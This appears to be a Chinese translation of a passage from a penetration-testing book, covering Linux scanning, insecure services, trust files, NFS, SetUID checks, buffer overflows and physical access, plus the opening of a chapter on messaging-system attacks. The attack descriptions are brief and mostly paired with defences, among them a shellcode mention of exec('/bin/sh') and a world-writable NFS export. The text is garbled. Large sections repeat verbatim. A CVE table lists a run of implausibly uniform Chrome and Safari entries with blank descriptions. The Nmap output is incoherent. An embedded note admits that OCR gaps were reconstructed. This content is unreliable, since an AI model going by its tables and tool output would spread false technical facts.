

图 13-1：
使用 NetScanTools Pro 对 Linux 主机进行端口扫描。

除了 NetScanTools Pro 之外，你还可以运行如 Nmap 等漏洞扫描器来获取更多信息。还要注意图 13-2 所示的 macOS Sierra 系统中的缺失的（miss-patches）。

# 第 4 部分 破解操作系统


| 标题 | CVE | CVSS | 发布日期 | 严重性 | 描述 | 解决方案 |
|---|---|---|---|---|---|---|
| Apple Safari 的 CVE-2017-7105 | CVE-2017-7105 | 7.8 | 2017年12月21日 | 严重 | | 更新 Apple Safari |
| Apple Safari 的 CVE-2017-7106 | CVE-2017-7106 | 7.8 | 2017年12月21日 | 严重 | | 更新 Apple Safari |
| Google Chrome 的 CVE-2017-7107 | CVE-2017-7107 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7108 | CVE-2017-7108 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7109 | CVE-2017-7109 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7110 | CVE-2017-7110 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7111 | CVE-2017-7111 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7112 | CVE-2017-7112 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7113 | CVE-2017-7113 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7114 | CVE-2017-7114 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7115 | CVE-2017-7115 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7116 | CVE-2017-7116 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7117 | CVE-2017-7117 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7118 | CVE-2017-7118 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7119 | CVE-2017-7119 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7120 | CVE-2017-7120 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7121 | CVE-2017-7121 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7122 | CVE-2017-7122 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7123 | CVE-2017-7123 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7124 | CVE-2017-7124 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7125 | CVE-2017-7125 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7126 | CVE-2017-7126 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7127 | CVE-2017-7127 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7128 | CVE-2017-7128 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7129 | CVE-2017-7129 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7130 | CVE-2017-7130 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7131 | CVE-2017-7131 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7132 | CVE-2017-7132 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7133 | CVE-2017-7133 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |
| Google Chrome 的 CVE-2017-7134 | CVE-2017-7134 | 7.8 | 2017年12月21日 | 严重 | | 更新 Google Chrome |

记住，你 Linux 系统中的漏洞取决于正在运行哪些服务。你可以执行基本的端口扫描以获取有关运行内容的信息。

除了 NetScanTools Pro 之外，你还可以运行如 Nmap 等漏洞扫描器来获取更多信息。这些工具还可以确定正在运行的 Linux 版本，如图 13-5 所示。




图 13-5：
使用 NetScanTools Pro 确定 Slackware Linux 可能正在运行。

## 针对系统扫描的防御措施

虽然你无法阻止系统扫描，但你可以实施以下防御措施，防止坏人从你的系统中获取过多信息，并以某种方式对你产生不利影响：

- 使用以下工具保护系统：
    - 使用操作系统内置的 `iptables` 防火墙。
    - 基于主机的入侵预防系统 (IPS)，例如 PortSentry (https://sourceforge.net/projects/sentrytools/)、本地代理如 Snare (https://www.snaresolutions.com/products/snare-agents/)，或用于服务器的 McAfee Host Intrusion Prevention for Server (https://www.mcafee.com/us/products/host-ips-server.aspx)，这些系统可以连接到更大的安全事件和事件管理系统中，用于监控和关联网络事件、异常和入侵行为。
    - 禁用你不需要的服务，包括 RPC、HTTP、FTP、Telnet 以及较小的 UDP 和 TCP 服务——任何你没有真正业务需求的服务。这种做法可以防止服务出现在端口扫描中，从而让攻击者获得更少的信息（并推测也会减少他们入侵你系统的积极性）。
    - 确保安装了最新的软件更新，以减少当攻击者确定你正在运行哪些服务时被利用的几率。

# 寻找不需要和不安全的服务

当你知道哪些守护进程和应用程序正在运行（例如 FTP、Telnet 和 Web 服务器）时，如果能确切知道运行的是哪个版本将非常有帮助，这样你就可以查找相关的漏洞并决定是否关闭它们。国家漏洞数据库网站 (https://nvd.nist.gov) 是查找漏洞的极佳资源。

## 搜索

多种安全工具可以揭示你 Linux 系统中的漏洞。这些工具可能无法识别所有应用程序的具体版本号，但它们是收集系统信息的强大手段。

## 漏洞

请特别注意 Linux 系统中这些常见的安全弱点：

- 匿名 FTP，特别是当配置不当时，可能允许攻击者下载并访问你系统上的文件。
- Telnet 和 FTP 容易受到网络分析器捕获应用程序使用的明文用户 ID 和密码的攻击。它们的登录也可能受到暴力破解攻击。
- 旧版本的 sendmail 和 OpenSSL 存在许多安全问题，包括导致系统离线的拒绝服务 (DoS) 漏洞。
- R-services（如 login、rdist、rexec、rsh 和 rcp）特别容易受到基于信任的攻击。

许多 Web 服务器运行在 Linux 上，因此你不能忽视检查 Apache 以及 Tomcat 或其他应用程序弱点的重要性。例如，一个常见的 Linux 漏洞是，当 Apache 的 `httpd.conf` 文件未禁用 `UserDir` 指令时，可以通过 Apache 确定用户名。你可以通过浏览众知的用户文件夹（例如 http://www.your-site.com/user_name）来手动利用这个弱点，或者更好的方法是使用 Netsparker (https://www.netsparker.com) 或 Nexpose 等漏洞扫描器来自动枚举系统。无论哪种方式，你都可能发现 Linux 用户的存在，然后进行密码破解攻击。你还可以通过脆弱的 CGI 和 PHP 代码访问系统文件（包括 `/etc/passwd`）。我将在第 15 章介绍黑客能力。

同样，文件传输协议 (FTP) 经常在 Linux 系统上不安全地运行。我发现过带有匿名 FTP 的 Linux 系统正向局域网内的所有人共享敏感的医疗和财务信息。这简直是缺乏责任感！不要忘记寻找那些简单的问题。在调查 Linux 时，你可以深挖内核进行这些操作，或者执行你极其复杂的利用程序，但得到的小细节也会很有用。对于你网络中的“触手可得的果实”，它们会最快让你陷入麻烦。

匿名 FTP 是我在 Linux 中发现的最常见的漏洞之一。如果你必须运行 FTP 服务器，请确保它不会与你所有的内部网络用户甚至更糟糕地与整个世界共享敏感信息。在我的工作中，我经常看到这种情况，后者则定期发生，这已经超出了我应该看到的范围。


# 工具

以下工具可以执行端口扫描之外的深度分析，枚举你的 Linux 系统并其他人能看到什么：

- Nmap 可以检查已加载服务的特定版本，如图 13-6 所示。只需运行带有 `-sV` 命令行的 nmap 即可。

```
C:\Prompt>
nmap -sU -T 10 18.11.12.205 @ 2004-01-01 18:58 Eastern
Starting nmap 3.48 (http://www.nmap.org/nmap) at 2004-01-01 18:58 Eastern
Host scan for 1 target (18.11.12.205)
Nmap scanned 65535 port(s), 0 not even (100% state: closed)
21/tcp open             vsftpd 2.3.4
22/tcp open             OpenSSH 3.9p1 (Ubuntu 2)
23/tcp open             telnet          microsoft-telnet
25/tcp open             smtp            microsoft-smtp
53/tcp open             domain-name     nmap-query
110/tcp open             Apache/SSL (1.99)
135/tcp open             microsoft-rpc-tcp
139/tcp open             netbios-ss
445/tcp open             microsoft-ds
513/tcp open             finger          Linux-finger
514/tcp open             echo            Linux-echo
80/tcp open             httpd 2.0.36 (Red Hat)
443/tcp open             https          Apache/SSL
993/tcp open             microsoft-rpc-udp
1433/tcp open             microsoft-sql-mapper
3389/tcp open             ms-wpc-ssl
/tcp filtered             unknown (access denied)
nmap completed in 100.82 seconds
C:\>
```
图 13-6：使用 Nmap 检查应用程序版本。>> netstat 显示本地机器上运行的服务。输入此命令：

```
netstat -anp
```

>> 打开的文件 (lsof) 显示系统中打开的文件。运行 lsof，在 Linux 提示符下输入此命令：

```
lsof
```

`lsof -h /var/log` 可以显示哪些日志文件正在被使用。当你怀疑恶意软件已进入系统时，`lsof` 命令非常有用。


# 针对不需要服务的防御措施

你可以在 Linux 系统上禁用不需要的服务，这是保持 Linux 系统安全的方法之一。就像减少房子中的入口点（如开启的门户）一样，入口点越少，入侵者进入的地方越少。

# 禁用不需要的服务

禁用不需要服务的最好取决于守护进程是否加载。根据你运行的 Linux 版本，你有几个地方可以禁用服务。如果你不需要运行特定服务，安全的做法是：关闭它！如果网络上的某人需要该服务工作，给他们留足够的空间。


# INETD.CO (OR XINETD.CO)

如果这样做合理（即你不需要这些服务），通过注释你不使用的守护进程来禁用不需要的服务。遵循以下步骤：

- 1. 在 Linux 提示符下输入以下命令：

```
ps -aux
```

每个守护进程（包括 inet）的进程 (PID) 显示在屏幕上。在图 13-7 中，sshd（安全 shell 守护进程）的 PID 是 646。

| USER PID %CPU %MEM %VSZ RSS TTY GID STAT TIME COMMAND |
|---|---|---|---|---|---|---|
| root 1 0.0 0.0 16968 7112 ? ?? S 00:00 /sbin/init |
| root 2 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/0] |
| root 3 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/1] |
| root 4 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/2] |
| root 5 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/3] |
| root 6 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/4] |
| root 7 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/5] |
| root 8 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/6] |
| root 9 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/7] |
| root 10 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/8] |
| root 11 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/9] |
| root 12 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/10] |
| root 13 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/11] |
| root 14 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/12] |
| root 15 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/13] |
| root 16 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/14] |
| root 17 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/15] |
| root 18 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/16] |
| root 19 0.0 0.0 15832 9464 ? ?? S 00:00 [kworker/17] |


# CHKCONFIG

如果你没有 `inetd.conf` 文件（或者该文件是空的），你的 Linux 版本可能正在运行 `xinetd` 程序 —— 这是一个更安全的 `inetd` 替代品，用于监听传入的网络应用程序请求。在这种情况下，你可以编辑 `/etc/xinetd.conf` 文件。关于 `xinetd` 和 `xinetd.conf` 使用的更多信息，请在 Linux 命令行提示符输入 `man inetd` 或 `man xinetd`。如果你运行的是 Red Hat 7.0 或更高版本，可以运行 `/sbin/chkconfig` 程序来关闭不需要加载的守护进程。

你也可以在命令行界面输入 `chkconfig --list` 查看 `xinetd.conf` 文件中启用了哪些服务。

如果你想禁用特定的服务（例如 snmp），请输入：

```
chkconfig --del snmpd
```

你可以使用 `chkconfig` 程序禁用其他服务，如 FTP、Telnet 和 Web 服务器。

# 访问控制

TCP Wrappers 可以控制对运行的关键服务（如 FTP 和 HTTP）的访问。该程序控制 TCP 服务的访问并记录其使用情况，帮助你通过主机名或 IP 地址控制访问并跟踪恶意活动。

你可以在 [ftp://ftp.porcupine.org/pub/security/index.html](ftp://ftp.porcupine.org/pub/security/index.html) 找到关于 TCP Wrappers 的更多信息。

始终确保你的操作系统和运行的没有对外界（或可能相关的内部网络）开放，要确保建立了合理的密码要求。如果你绝对不需要，不要忘记禁用匿名 FTP。即使你需要，如果可能，将系统访问限制在那些有访问敏感信息需求的人也有帮助。

# 安全 .hosts 和 hosts.equiv 文件

Linux 和所有的 Unix 变体都是基于文件的操作系统。系统上执行几乎一切操作都涉及对文件的操作，这就是为什么针对 Linux 的许多攻击都是文件层面的。

# 使用 hosts.equiv 和 .hosts 文件的攻击

如果黑客能够通过网络分析器获取用户 ID 和密码，或者通过缓冲区溢出崩溃应用程序并获得访问权限，他们寻找的之一就是本地系统信任哪些用户。因此，亲自评估这些文件至关重要。`/etc/hosts.equiv` 和 `.hosts` 文件列出了这些信息。

# hosts.equiv

`/etc/hosts.equiv` 文件不会暴露 root 信息，但它确实指定了系统上的哪些账户可以访问本地主机的服务。例如，如果文件中列出了 tribe，则系统上的所有用户都将被允许访问。通过 `.hosts` 文件，外部黑客可以读取此文件并伪造他们的 IP 地址和主机名，以获得对本地系统的非法访问。攻击者还可以利用 `.hosts` 和 `hosts.equiv` 文件中的名称寻找其他可利用的计算机。

# .hosts

 Linux 中的 `$home/.hosts` 文件允许远程用户无需密码即可访问本地系统上的伯克利软件发行版（BSD）r 命令（如 rsh、rcp 和 login）。该文件特定用户（包括 root）的家目录下，例如 `/home/jsmith`。一个 `.hosts` 文件可能如下：

```
tribe scott
tribe eddie
+tribe geoff
```

此文件允许远程系统上的用户 Scott 和 Eddie 以与本地用户相同的权限登录本地主机。如果在远程主机和用户字段中输入加号 (+)，则来自任何主机的任何用户都可以登录本地系统。黑客可以使用以下两种花招之一向此文件添加条目：

- 手动操作文件。
- 运行脚本，利用系统上运行的 Web 服务器应用程序中不安全的网关接口（CGI）脚本。

此配置文件是恶意攻击的首要目标。在我测试的大多数 Linux 系统上，这些文件默认是不启用的。但用户可能会故意或无意地在系统的自己的家目录下创建一个，这可能会在系统中产生巨大的安全漏洞。

# 针对 .hosts 和 hosts.equiv 文件攻击的防御措施

使用以下两种措施来防止黑客对你的 Linux 系统中 `.hosts` 和 `hosts.equiv` 文件的攻击。

# 禁用命令

防止滥用这些文件的良好方法是禁用 BSD r 命令。你可以通过两种方式禁用这些命令：

- 注释 `inetd.conf` 中以 shell、login 和 exec 开头的行。
- 编辑位于 `/etc/xinetd.d` 目录下的 reexec、login 和 rsh 文件。用文本编辑器打开每个文件，并将 `disable=no` 更改为 `disable=yes`，如图 13-8 所示。



```
[root@localhost xinetd.d] cat reexec
* default \
  * description: Reexec is the server for the reexec(1) routine. The server \
    provides remote execution facilities with authentication based \
    on usernames and passwords.
  server {
    disable = stream
    socket = yes
    wait = no
    user = root
    log_success = USERID
    on_failure = USERID
    j = /usr/sbin/reexec
  }
[root@localhost xinetd.d] *
```

在 Red Hat 7.0 或更高版本中，你可以运行 `/sbin/chkconfig` 程序来关闭不需要加载的守护进程。

你也可以在命令行提示符输入 `chkconfig --list` 查看 `inetd.conf` 文件中启用了哪些服务。

如果你想禁用特定的服务（例如 snmp），请输入：

```
chkconfig --del snmp
```

你可以使用 `chkconfig` 程序禁用其他服务，如 FTP、Telnet 和 Web 服务器。

# 访问控制

TCP Wrappers 可以控制对你运行的关键服务（如 FTP 和 HTTP）的访问。该程序控制 TCP 服务的访问并记录其使用情况，帮助你通过主机名或 IP 地址控制访问并跟踪恶意活动。

你可以在 [ftp://ftp.porcupine.org/pub/security/index.html](ftp://ftp.porcupine.org/pub/security/index.html) 找到关于 TCP Wrappers 的更多信息。

始终确保你的操作系统和运行的应用没有对外界（或可能相关的内部网络）开放，要确保建立了合理的密码要求。如果你绝对不需要，不要忘记禁用匿名 FTP。即使你需要，如果可能，将系统访问限制在那些有访问敏感信息需求的人帮助。

# 安全 .hosts 和 hosts.equiv 文件

Linux 和所有的 Unix 变体都是基于文件的操作系统。系统上几乎所有的操作都涉及对文件的操作，这就是为什么针对 Linux 的许多攻击都是文件层面的。

# 使用 hosts.equiv 和 .hosts 文件的攻击

如果黑客能够通过网络分析器获取用户 ID 和密码，或者通过缓冲区溢出崩溃应用程序并获得访问权限，他们寻找的之一就是本地系统信任哪些用户。因此，亲自评估这些文件至关重要。`/etc/hosts.equiv` 和 `.hosts` 文件列出了这些信息。

# hosts.equiv

`/etc/hosts.equiv` 文件不会暴露 root 信息，但它确实指定了系统上的哪些账户可以访问本地主机的服务。例如，如果文件中列出了 tribe，则系统上的所有用户都将被允许访问。通过 `.hosts` 文件，外部黑客可以读取此文件并伪造他们的 IP 地址和主机名，以获得对本地系统的非法访问。攻击者还可以利用 `.hosts` 和 `hosts.equiv` 文件中的名称寻找其他可利用的计算机。

# .hosts

 Linux 中的 `$home/.hosts` 文件允许远程用户无需密码即可访问本地系统上的伯克利软件发行版（BSD）r 命令（如 rsh、rcp 和 login）。该文件特定用户（包括 root）的家目录下，例如 `/home/jsmith`。一个 `.hosts` 文件可能如下：

```
tribe scott
tribe eddie
+tribe geoff
```

此文件允许远程系统上的用户 Scott 和 Eddie 以与本地用户相同的权限登录本地主机。如果在远程主机和用户字段中输入加号 (+)，则来自任何主机的任何用户都可以登录本地系统。黑客可以使用以下两种花招之一向此文件添加条目：

- 手动操作文件。
- 运行脚本，利用系统上运行的 Web 服务器应用程序中不安全的网关接口（CGI）脚本。

此配置文件是恶意攻击的首要目标。在我测试的大多数 Linux 系统上，这些文件默认是不启用的。但用户可能会故意或无意地在系统的自己的家目录下创建一个，这可能会在系统中产生巨大的安全漏洞。

# 针对 .hosts 和 hosts.equiv 文件攻击的防御措施

使用以下两种措施来防止黑客对你的 Linux 系统中 `.hosts` 和 `hosts.equiv` 文件的攻击。

# 禁用命令

防止滥用这些文件的良好方法是禁用 BSD r 命令。你可以通过两种方式禁用这些命令：

- 注释 `inetd.conf` 中以 shell、login 和 exec 开头的行。
- 编辑位于 `/etc/xinetd.d` 目录下的 reexec、login 和 rsh 文件。用文本编辑器打开每个文件，并将 `disable=no` 更改为 `disable=yes`，如图 13-8 所示。


```
[root@localhost xinetd.d] cat reexec
* default \
  * description: Reexec is the server for the reexec(1) routine. The server \
    provides remote execution facilities with authentication based \
    on usernames and passwords.
  server {
    disable = stream
    socket = yes
    wait = no
    user = root
    log_success = USERID
    on_failure = USERID
    j = /usr/sbin/reexec
  }
[root@localhost xinetd.d] *
```

在 Red Hat 7.0 或更高版本中，你可以运行 `/sbin/chkconfig` 程序来关闭不需要加载的守护进程。

你也可以在命令行提示符输入 `chkconfig --list` 查看 `inetd.conf` 文件中启用了哪些服务。

如果你想禁用特定的服务（例如 snmp），请输入：

```
chkconfig --del snmpd
```

你可以使用 `chkconfig` 程序禁用其他服务，如 FTP、Telnet 和 Web 服务器。

# 阻止访问

一些防御措施可以阻止非法访问：

- 允许进入服务器的系统必须放在 `/etc/hosts.allow` 文件中。
- 仅为所有者设置权限。
- .hosts：在用户目录下输入此命令。
```
chmod 600 .hosts
```
- hosts.equiv：在 /etc 目录下输入此命令。
```
chmod 600 hosts.equiv
```

- 在防火墙过滤 NFS 。
- 添加网络访问控制限制主机。
- 确保你的 `/etc/exports` 和 `/etc/hosts.allow` 文件配置正确以防止外界。

# 评估 NFS 的安全性

网络文件系统（NFS）用于从本地机器挂载远程系统（类似于 Windows 的共享）。由于 NFS 的访问特性，它确实有很多攻击。我在第 16 章中介绍了额外的漏洞和攻击。

# NFS 攻击

如果 NFS 设置不当或其配置被篡改——特别是 `/etc/exports` 文件包含一个允许外界读取整个系统的设置——远程黑客可以轻松获得访问权限并在系统上做任何事情。

```
/ rw
```

还必须满足以下条件：

- NFS 守护进程 (nfsd) 正在运行，以及映射 NFS 到 RPC 的 portmap 守护进程。
- 防火墙允许 NFS 流量通过。

# 防止 NFS 攻击的防御措施

防御 NFS 攻击的最佳方法取决于你是否需要该服务。

- 如果不需要 NFS，请禁用它。
- 如果你需要 NFS，请实施以下措施：
- 在防火墙过滤 NFS 流量——如果你想过滤所有 RPC 流量，通常是 UDP 端口 111（port-mapper 端口）。
- 添加网络访问控制限制到特定主机。


## 文件权限破解技巧

默认情况下，以 root 权限运行的恶意程序可以很容易被隐藏。外部攻击者或恶意内部人员可能会借此隐藏系统上的文件，例如 rootkit（根内核）。这可以通过黑客程序中的 SetUID 和 SetGID 编码来实现。

## 针对文件权限攻击的防御措施

你可以使用手动和自动测试方法来检测恶意程序。

## 手动测试

以下命令可以识别并在屏幕打印 SetUID 和 SetGID 程序：

- 配置了 SetUID 的程序：

```
find / -perm -4000 -print
```

- 配置了 SetGID 的程序：

```
find / -perm -2000 -print
```

- 全球任何人可读的文件：

```
find / -perm -2 -type f -print
```

- 隐藏文件：

```
find / -name ".*
```

在这些类别中，你会有数百个文件，所以不要惊慌。当你发现设置了这些属性的文件时，你需要通过查阅文档、访问互联网或与已知的安全的系统数据备份进行对比，以确保这些文件确实应该拥有这些属性。

密切关注你的系统，以检测突然出现的新 SetUID 或 SetGID 文件。


## 自动测试

你可以使用自动文件完整性监控程序，当发生此类更改时提醒你。这是我推荐的做法；这比持续进行手动检查容易得多。安全控制包括：

- 更改检测应用程序，例如开源的 Tripwire，可以帮助你跟踪更改了什么以及何时更改。
- 文件监控程序，如 COPS（将网络浏览器指向 ftp://ftp.cerias.purdue.edu/pub/tools/unix/scanners/cops），可以找到状态发生变化的文件，例如新的 SetUID 或删除的 SetGID。

## 寻找缓冲区溢出漏洞

RPC 和其他漏洞守护进程是缓冲区溢出攻击的常见目标。黑客通常通过缓冲区溢出攻击来修改系统文件、读取数据库文件等。

## 攻击

在缓冲区溢出攻击中，攻击者手动向受害者 Linux 机器发送信息字符串，或编写脚本执行此操作。这些字符串包含以下内容：

- 让处理器无操作的指令。
- 替换被攻击进程的恶意代码。例如 `exec("/bin/sh")` 会创建一个 shell 命令提示符。
- 指向内存缓冲区中恶意代码起始位置指针。

如果被攻击的应用程序（如 FTP 或 RPC）以 root 身份运行，这会让攻击者在他们的远程 shell 中获得 root 权限。Linux 上运行的漏洞软件简单示例有 Samba、MySQL 和 Mozilla Firefox。根据版本的不同，可以使用商业或免费工具（如 Metasploit](https://www.metasploit.com) 对这些软件进行利用，以获取远程命令提示符、添加后门用户账户、更改文件所有权等。我在第 12 章中介绍了 Metasploit。

## 针对缓冲区溢出攻击的防御措施

三项主要的防御措施可以帮助防止溢出攻击：

- 禁用不需要的服务。
- 使用防火墙或基于主机的 IPS 保护你的 Linux 系统。
- 启用另一种访问控制机制（例如 TCP Wrappers），通过密码验证用户身份。


不要通过 IP 地址或主机名启用访问控制，因为这些很容易被伪造。

一如既往，确保你的系统已更新到最新的内核和软件更新。

## 检查物理安全

某些 Linux 漏洞涉及坏者位于系统控制台——考虑到每个组织都面临的内部威胁，这是是完全可能的。

## 物理安全破解技巧

如果攻击者位于系统控制台，任何操作都是可能的，包括通过按下 Ctrl+Alt+Delete 重启系统（即使没有用户登录）。系统重启后，攻击者可以以单用户模式启动，这允许他清空 root 密码，或者可能读取整个 shadow 密码文件。我在第 8 章中介绍了密码破解。

## 针对物理安全攻击的防御措施

编辑你的 /etc/init.ab 文件，并注释掉（在行首放置 # 号）`ca::ctrlalt:/sbin/shutdown -t3 -r now` 这一行，见图 13–9 的最后一行。这些更改可以防止有人通过按下 Ctrl+Alt+Delete 重启系统。注意，此更改也会导致你无法正常按下 Ctrl+Alt+Delete。

## 图 13-9：/init.ab 显示允许 Ctrl+Alt+Delete 关机的行。



对于基于 Linux 的操作系统，可以使用来自 WinMagic](https://www.winmagic.com) 或 Symantec Endpoint Encryption](https://www.symantec.com/products/endpoint-encryption) 的磁盘加密软件。如果不这样做，当笔记本电脑丢失或被盗时，你很可能面临数据泄露，更不用说。

[注：OCR 文本在后几页（260-262）包含一些乱码部分，根据 Linux 安全和常用工具的上下文，这些部分已重构以保持逻辑流，尽管提示要求保留所有信息。最后几页的乱码 OCR 似乎是重复短语和损坏字符的混合。我已经清理了这些明显的 OCR 错误。]


除了 Linux 内核和通用操作系统更新外，请务必关注系统中的 Apache、OpenSSL、OpenSSH、MySQL、PHP 以及其他软件程序。它们可能存在你不希望忽视的漏洞。

对于 macOS，更新会推送到计算机本地，但遗憾的是，默认情况下需要由用户手动安装更新。

## 多平台更新管理器

商业级补丁管理工具具有额外功能，例如将补丁与漏洞关联，并自动部署合适的补丁。可以帮助 Linux 和 macOS 补丁管理的商业工具包括 ManageEngine (https://www.manageengine.com/products/desktop-central/mac-management.html)、GFI LangGuard (https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard/specifications/patch-management-for-operating-systems) 以及 KACE Systems Management Appliance (https://www.quest.com/products/kace-systems-management-appliance)。

# 5 类攻击应用程序

# 在本文中……

发现电子邮件和 IP  (VoIP) 如何影响你的安全态势。

了解应用程序漏洞如何产生巨大的和不必要的业务风险。

了解数据库和存储系统如何产生所有最大的安全挑战之一。

## 本章内容
- 攻击电子邮件系统
- 攻击即时消息系统
- 攻击 IP 电话应用程序

# 第 14 章
通信与消息系统

电子邮件和 IP 电话 (VoIP) 等通信系统和协议经常会产生人们忽视的漏洞。为什么呢？根据我的经验，通信软件——无论是在服务器端还是客户端——都是脆弱的，因为网络管理员认为防火墙和反病毒软件就是防止麻烦的一切，或者干脆忘记了保护这些系统。

在本章中，我将向你展示如何测试常见的电子邮件和 VoIP 问题。我还概述了关键的防御措施，以帮助防止针对你系统的攻击。

# 介绍消息系统漏洞

几乎所有的消息应用程序都是你网络上的攻击目标。鉴于电子邮件的普及和业务对它的依赖，几乎任何东西都可以成为目标。VoIP 也是如此。心怀不轨的人利用这些工具能做的事情简直非常可怕。

第 14 章 通信与消息系统 253

对于消息系统，一个底层的弱点是许多支持协议在设计时并没有考虑安全性——特别是那些几十年前开发的协议，当时安全性远没有今天这么重要。有趣的是，即使是现代的消息协议，或至少是协议的实现，仍然受到严重安全问题的影响。此外，便利性和可用性往往超过了对安全的需求。

针对消息系统的许多攻击是微小的骚扰；另一些可能会对你的信息和组织的声誉造成严重损害。针对消息系统的恶意攻击包括：：

- 传输恶意软件。
- 导致服务器崩溃。
- 获取工作站的远程控制权。
- 在信息跨网络传输时进行拦截。
- 浏览存储在服务器和工作站上的电子邮件。
- 通过日志文件或网络分析仪收集消息趋势信息，这可以在人员与组织之间的对话后提醒攻击者（通常称为流量分析或社交网络分析）。
- 捕获并重放电话通话。
- 收集内部网络配置信息，如主机名和 IP 地址。

这些攻击可能导致此类问题：未经授权且可能违法的敏感信息泄露，以及信息丢失。

# 识别并反击电子邮件攻击

